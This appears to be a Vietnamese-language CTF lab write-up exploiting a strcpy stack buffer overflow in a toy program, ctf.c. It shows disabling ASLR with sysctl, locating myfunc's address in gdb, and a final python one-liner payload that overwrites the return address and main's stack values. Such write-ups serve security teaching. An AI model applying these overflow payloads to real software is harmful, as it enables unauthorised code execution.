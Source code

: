 # 2. Conduct attack on ctf.c

![alt text](../images/image-24.png)

Hàm vuln() sử dụng strcpy(buf,s) để sao chép đầu vào s vào mảng buf[100]. Tuy nhiên, hàm strcpy không kiểm tra đầu vào, nên nếu chuỗi s nhập hơn 100 ký tự, nó sẽ ghi đè lên các byte lân cận, gây ra buffer overflow

![alt text](../images/image-25.png)

mục tiêu là đè địa chỉ trả về của hàm vuln thành địa chỉ của hàm myfunc thì mới có thể chạy được hàm myfunc

Tắt chế độ cấp phát địa chỉ stack ngẫu nhiên:

`sudo sysctl -w kernel.randomize_va_space=0`

![alt text](../images/image-26.png)

biên dịch chương trình ctf.c

![alt text](../images/image-27.png)

chạy gdb để xem địa chỉ của hàm myfunc:

![alt text](../images/image-28.png)

=> Địa chỉ: 0x0804851b

=> chúng ta cần chèn 104 bytes + '\x1b\x85\x04\x08'

Stack sau khi đè lên giá trị trở về của hàm vuln():

![alt text](../images/image-30.png)

Giờ để lấy được flag ta cần phải vượt qua các chướng ngại vật sau:

- flag1.txt chưa có => phải tạo ra 1 file flag1.txt bằng lệnh `touch flag1.txt`
  
  ![image](https://github.com/user-attachments/assets/59dfac7f-00b2-420a-8c50-831f97decfdb)

- 2 tham số p,q của hàm myfunc chưa có trong stack, vì thế ta đè tiếp biến ebp và giá trị trả về của hàm main thành các flag của p,q

![image](https://github.com/user-attachments/assets/cb0204df-7af7-43d1-b5a6-f666c5e45e98)

=> Câu lệnh cuối cùng:

`./ctf.out $(python -c "print('a' * 104 + '\x1b\x85\x04\x08' + 'a'*4 + '\x11\x12\x08\x04' + '\x62\x42\x64\x44')")`

- `'a' * 104`: chèn giá trị cho biến buf và biến ebp 
- `'\x1b\x85\x04\x08'` gán địa chỉ của hàm myfunc() đến địa chỉ trả về của hàm vuln()
- `'a'*4` gán giá trị cho biến s của hàm vuln
- `'\x11\x12\x08\x04'` gán địa chỉ p đến ebp của hàm main()
- `'\x62\x42\x64\x44'` gán địa chỉ q đến giá trị trở về của hàm main()

=> kết quả: 
  
![alt text](../images/image-31.png)



